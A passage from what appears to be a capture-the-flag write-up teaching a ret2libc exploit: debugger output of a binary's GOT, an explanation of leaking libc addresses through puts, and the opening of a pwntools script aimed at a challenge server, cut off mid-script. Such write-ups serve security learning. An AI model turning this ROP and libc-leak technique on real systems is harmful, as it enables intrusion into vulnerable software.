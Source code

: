 And here is what it looks like toward the end of the main function:
```
gef➤  got

GOT protection: Partial RelRO | GOT functions: 7

[0x405018] puts@GLIBC_2.2.5  →  0x7ffff7e4e5a0
[0x405020] setbuf@GLIBC_2.2.5  →  0x7ffff7e55c50
[0x405028] printf@GLIBC_2.2.5  →  0x7ffff7e2be10
[0x405030] fgets@GLIBC_2.2.5  →  0x7ffff7e4c7b0
[0x405038] strcmp@GLIBC_2.2.5  →  0x401076
[0x405040] fopen@GLIBC_2.2.5  →  0x401086
[0x405048] exit@GLIBC_2.2.5  →  0x401096
```
Here is what the before and after addresses point to:
```
gef➤  x/5i 0x401036
   0x401036 <puts@plt+6>:       push   0x0
   0x40103b <puts@plt+11>:      jmp    0x401020
   0x401040 <setbuf@plt>:       jmp    QWORD PTR [rip+0x3fda]        # 0x405020 <setbuf@got.plt>
   0x401046 <setbuf@plt+6>:     push   0x1
   0x40104b <setbuf@plt+11>:    jmp    0x401020
gef➤  x/5i 0x7ffff7e4e5a0
   0x7ffff7e4e5a0 <__GI__IO_puts>:      endbr64
   0x7ffff7e4e5a4 <__GI__IO_puts+4>:    push   r14
   0x7ffff7e4e5a6 <__GI__IO_puts+6>:    push   r13
   0x7ffff7e4e5a8 <__GI__IO_puts+8>:    push   r12
   0x7ffff7e4e5aa <__GI__IO_puts+10>:   mov    r12,rdi
```
All of this means that the GOT contains libc addresses, so if we can just print them to the console, we have an effective libc leak. Typically, we can accomplish this by using any libc function for which a PLT address is available that writes to the console; puts and printf are preferred since they can do it with control over the rdi register (this sets your parameter for a function in x86-64). Essentially, you can just pop a GOT entry into libc, add the PLT entry for puts, then call main again so that you can actually use your leak in a fresh chain.

Now on to more Rule of Two-specific content!

## Implementing Ret2libc

### Identifying the Libc

Based on the solution to Vader, we know how to create a simple ROP chain. So, the first step here is to create one where the first parameter/rdi register is filled with an address from the GOT, the puts function is called so that the contents of that address are printed to the console, and then the main function is called to give me a second opportunity to write a ropchain leveraging the libc leak. We also need to make sure to save the leaked address to a variable so that calculations can be performed on it, which is fortunately very doable with pwntools.

Here is the script to do exactly that:
```
from pwn import *

local = 0
if local == 1:
	target = process('./vader')

	pid = gdb.attach(target, "\nb *main+68\n set disassembly-flavor intel\ncontinue")
else:
	target = remote('0.cloud.chals.io', 20712)
    
elf = ELF('vader')

pop_rdi = 0x000000000040165b	
pop_rsi_r15 = 0x0000000000401659
```